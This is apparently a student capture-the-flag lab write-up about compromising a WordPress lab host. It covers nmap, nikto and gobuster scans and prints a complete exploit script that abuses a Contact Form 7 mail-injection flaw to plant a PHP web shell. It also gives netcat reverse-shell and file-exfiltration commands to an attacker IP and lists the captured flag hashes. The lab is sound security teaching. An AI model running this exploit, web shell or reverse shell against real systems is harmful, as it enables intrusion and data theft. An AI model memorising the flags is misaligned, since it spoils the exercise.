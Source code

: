 # Attacking Target 2

## Table of Contents
- [Discovering Vulnerabilities](#discovering-vulnerabilities)
- [Exploiting Discovered Vulnerability](#exploiting-discovered-vulnerability)
- [Flags](#flags)

### Discovering Vulnerabilities

- `nmap` scan
  - An nmap scan presented all abvailable ports.
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbios-ssn)
    - Port 445 (netbios-ssn)
  - `nmap -sS -sV 192.168.1.115`
- ![nmapscan](./Images/Target2/nmap%20scan%20target2.JPG)

- `nikto` scan
 - A nikto scan revealed all dangerous files/CGIs, outdated server software and other problems.
- ![niktoscan](./Images/Target2/nikto%20results.JPG)

- `gobuster` scan
  - A gobuster scan brute-forced all available URI's and DNS subdomains.
- ![gobusterscan](./Images/Target2/gobuster%20scan.JPG)

### Exploiting Discovered Vulnerability

-  A Contact Form 7 vulnerability was found.
  - This allowed an `exploit.sh` bash script to be run that allowed a `backdoor.php` file to be uploaded to the WordPress directory of the server.
```bash
#!/bin/bash
# Lovingly borrowed from: https://github.com/coding-boot-camp/cybersecurity-v2/new/master/1-Lesson-Plans/24-Final-Project/Activities/Day-1/Unsolved

TARGET=http://192.168.1.15/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

- The `backdoor.php` file allowed for execution of command injection attacks on the target website.
  - `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` can now be run in the Kali browser that uses `backdoor.php` to open a shell session on the target.
  - `nc -lnvp 4444` was used on the Kali terminal to open a listening port on port `4444`.
  - On the Kali browser `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash` was used and a shell session was obtained on the target.
- ![shellsession](./Images/Target2/shell%20session.JPG)

### Flags

- `flag1.txt`: `a2c1f66d2b8051bd3a5874b5b6e43e21`
  - **Exploit Used**
    - Discovery of website directory listing.
    - After running a `gobuster` scan, the directory listing was found for the target and the flag was found at `http://192.168.1.115/vendor/PATH`
  - Commands run:
    - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115`
    - `http://192.168.1.115/vendor/PATH` (In Kali web browser.)

- `flag2.txt`: `6a8ed560f0b5358ecf844108048eb337`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/flag2.txt`.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `cd /var/www`
    - `cat flag2.txt`

- `flag3.png`: `a0f568aa9de277887f37730d71520d9b`
  - **Exploit Used**
    - Contact Form 7 vulnerability.
    - The `exploit.sh` script was run and installed a `backdoor.php` file on the target WordPress server that allowed a shell session on the target and the flag was found in `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`.
    - Netcat was used to exfiltrate the file to the attacking machine.
  - Commands run:
    - `bash ./exploit.sh`
    - `nc -lnvp 4444`
    - `http://<Target 2 URL>/backdoor.php?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash' (In Kali web browser.)
    - `find /var/www -type f -iname 'flag*'`
    - `nc -l -p 4444 > flag3.png` (recieving)
    - `cat flag3.png | netcat 192.168.1.90 4444` (sending)
- ![flag3](./Images/Target2/flag3.JPG)
